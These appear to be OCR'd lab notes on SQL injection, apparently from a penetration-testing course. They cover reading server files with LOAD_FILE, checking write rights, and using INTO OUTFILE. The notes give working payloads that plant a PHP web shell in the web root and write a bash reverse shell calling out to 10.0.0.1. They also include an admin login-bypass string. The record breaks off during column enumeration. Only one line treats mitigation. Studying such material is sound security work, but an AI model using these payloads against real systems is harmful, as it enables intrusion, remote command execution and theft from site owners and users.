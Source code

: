 ```
NOTE: WE HAVE TO CHECK THE SOURCE CODE TO SEE THE IMPORTED PHP FILE. We look at the page's HTML. We find the file

```
<?php
include "config.php";
?>
```
Which we can read with
```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

# Writing Files


```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
To check if we have the ability to write files.

We can use a SELECT INTO OUTFILE statement to write stuff, ie

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```


Notice how we turn the select statement into a way of writing files.
```
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
Writing files is close to a free win, since we can write a backdoor and give ourselves RCE.
```
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1', "", "" into outfile '/var/www/html/shell.sh'-- -
```


# Mitigating SQL Injection

We can mitigate SQL injection by sanitizing user input of special characters.

# Skills Assessment

Our trivial payloads don't work. So we go to https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt

Boot up burp, capture a request, go to intruder, and use this list as the set of payloads.

```
admin' or '1'='1'-- -
```

We needed a comment added to the end of a traditional payload. This brings us to a payroll information.

Now, we need to figure out how many columns exist.

```
' order by 1-- -
```
```